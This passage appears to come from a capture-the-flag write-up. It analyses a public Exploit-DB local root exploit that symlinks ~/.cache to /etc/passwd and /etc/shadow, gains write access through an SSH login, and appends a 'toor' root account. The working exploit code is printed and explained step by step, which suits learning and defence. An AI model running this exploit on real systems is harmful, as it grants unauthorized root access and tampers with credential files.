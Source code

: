 ### Script

#### Analysis

The [Exploid-DB script](https://www.exploit-db.com/exploits/14339) defines a bunch of functions, does some basic checks, and then runs this:

```

KEY="$(mktemp -u)"
key_create || { echo "[-] Failed to setup SSH key"; exit 1; }
backup ~/.cache || { echo "[-] Failed to backup ~/.cache"; bye; }
own /etc/passwd && echo "$P" >> /etc/passwd
own /etc/shadow && echo "$S" >> /etc/shadow
restore ~/.cache || { echo "[-] Failed to restore ~/.cache"; bye; }
key_remove
echo "[+] Success! Use password toor to get root"
su -c "sed -i '/toor:/d' /etc/{passwd,shadow}; chown root: /etc/{passwd,shadow}; \
  chgrp shadow /etc/shadow; nscd -i passwd >/dev/null 2>&1; bash" toor

```

`key_create` creates an SSH key and installs it into the current user’s home directory, being careful to backup whatever is already there.

`backup ~/.cache` will do just that - create a backup copy of the directory.

The `own` function is worth looking at:

```

own() {
    [ -e ~/.cache ] && rm -rf ~/.cache
    ln -s "$1" ~/.cache || return 1
    echo "[*] spawn ssh"
    ssh -o 'NoHostAuthenticationForLocalhost yes' -i "$KEY" localhost true
    [ -w "$1" ] || { echo "[-] Own $1 failed"; restore ~/.cache; bye; }
    echo "[+] owned: $1"
}

```

If `~/.cache` exists, it removes it. Then it creates the link to the file to target, which from the main body is first `/etc/passwd`, and then `/etc/shadow`. Then it runs SSH to connect to the box to run the `true` command and then disconnect. It verifies that it now has write permissions on the file.

So in each of the calls to `own`, it gets write access, and then adds a line, thus adding the user toor as a root user, just like I did manually.

Then it restores `.cache`, and cleans up the SSH key that was added.

Finally, it calls `su -c` with a long command to run as root for the user toor. When I enter that password, toor, it runs the command:
- remove the line for the toor user from both `/etc/passwd` and `/etc/shadow`;
- change the owner for both of those files to root;
- change the group of `/etc/shadow` to shadow;
- `nscd` is the caching daemon for name services, including `passwd`, and this [invalidates the cache](https://linux.die.net/man/8/nscd);
- runs `bash` to give a shell.
